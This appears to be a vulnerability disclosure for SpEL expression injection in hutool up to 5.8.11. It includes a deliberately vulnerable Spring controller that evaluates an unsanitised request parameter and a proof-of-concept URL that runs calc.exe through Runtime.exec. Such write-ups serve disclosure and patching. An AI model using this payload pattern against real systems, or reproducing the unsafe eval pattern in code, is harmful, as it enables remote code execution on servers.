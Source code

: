 # hutool by  dromara has SPEL Expression injection

**BUG_Author: keecth**

**vendors:**

 [Hutool — 🍬A set of tools that keep Java sweet.](https://hutool.cn/)
[dromara/hutool: 🍬A set of tools that keep Java sweet. (github.com)](https://github.com/dromara/hutool)

**Vulnerability scope**: hutool <=5.8.11

**Vulnerability File:** hutool-all-5.8.11.jar!\cn\hutool\extra\expression\engine\spel\SpELEngine.class

When the `eval` parameter is controllable, it causes `SPEL expression injection remote code execution`

<img src="C:\Users\Administrator\Desktop\QQ图片20230111221442.png">

## Environment build

- SpringBoot 3.0.1
- JDK 17

**pom.xml**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>3.0.1</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.example</groupId>
    <artifactId>hutool</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>hutool</name>
    <description>hutool</description>
    <properties>
        <java.version>17</java.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>
        <dependency>
            <groupId>cn.hutool</groupId>
            <artifactId>hutool-all</artifactId>
            <version>5.8.11</version>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>

</project>

```

Create a test class **Person**

```java
package com.example.hutool;

public class Person {
    public String name;
    public Person(String name){
        this.name=name;
    }
}
```

<img src="C:\Users\Administrator\Desktop\Snipaste_2023-01-11_22-52-47.png">

Create **controller**

```java
package com.example.hutool.controller;

import cn.hutool.extra.expression.engine.spel.SpELEngine;
import com.example.hutool.Person;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;

import java.util.HashMap;

@Controller
public class TestController {

    @GetMapping("/a")
    public void test(String a){
        Person kk = new Person("kk");
        HashMap<String,Object> m = new HashMap<>();
        m.put("1",kk);
        SpELEngine spELEngine = new SpELEngine();
        spELEngine.eval(a,m);
    }
}
```

<img src="C:\Users\Administrator\Desktop\Snipaste_2023-01-11_22-52-51.png">

运行项目

## POC

运行poc，弹出计算器

```
http://192.168.3.4:8080/a?a=T(java.lang.Runtime).getRuntime().exec(%22calc.exe%22)
```

![image-20230111225154574](http://img.keecth.cn:55566/img/1673448716_e43f7637f72db0617aba9cb8f1c2f9b1.png)

